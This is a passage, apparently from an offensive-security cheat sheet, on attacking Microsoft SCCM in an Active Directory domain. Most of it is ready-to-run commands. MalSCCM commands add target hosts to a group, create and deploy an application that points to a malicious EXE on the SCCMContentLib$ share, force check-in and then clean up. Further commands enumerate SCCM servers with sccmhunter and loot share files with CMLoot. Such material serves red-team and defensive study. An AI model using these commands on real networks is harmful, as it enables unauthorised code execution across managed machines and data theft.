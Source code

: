 * Add your targets into the new group

    ```ps1
    MalSCCM.exe group /addhost /groupname:TargetGroup /host:WIN2016-SQL
    ```

* Create an application pointing to a malicious EXE on a world readable share : `SCCMContentLib$`

    ```ps1
    MalSCCM.exe app /create /name:demoapp /uncpath:"\\BLORE-SCCM\SCCMContentLib$\localthread.exe"
    MalSCCM.exe inspect /applications
    ```

* Deploy the application to the target group

    ```ps1
    MalSCCM.exe app /deploy /name:demoapp /groupname:TargetGroup /assignmentname:demodeployment
    MalSCCM.exe inspect /deployments
    ```

* Force the target group to checkin for updates

    ```ps1
    MalSCCM.exe checkin /groupname:TargetGroup
    ```

* Cleanup the application, deployment and group

    ```ps1
    MalSCCM.exe app /cleanup /name:demoapp
    MalSCCM.exe group /delete /groupname:TargetGroup
    ```

## SCCM Enumeration

* [garrettfoster13/sccmhunter](https://github.com/garrettfoster13/sccmhunter) - SCCMHunter is a post-ex tool built to streamline identifying, profiling, and attacking SCCM related assets in an Active Directory domain.

    ```ps1
    sccmhunter.py find -u user -p P@ssw0rd -dc-ip 10.10.10.10 -d lab.lan
    sccmhunter.py show -siteservers
    ```

## SCCM Shares

> Find interesting files stored on (System Center) Configuration Manager (SCCM/CM) SMB shares

* [1njected/CMLoot](https://github.com/1njected/CMLoot)

  ```ps1
  Invoke-CMLootInventory -SCCMHost sccm01.domain.local -Outfile sccmfiles.txt
  Invoke-CMLootDownload -SingleFile \\sccm\SCCMContentLib$\DataLib\SC100001.1\x86\MigApp.xml
  Invoke-CMLootDownload -InventoryFile .\sccmfiles.txt -Extension msi
  ```

## SCCM Configuration Manager
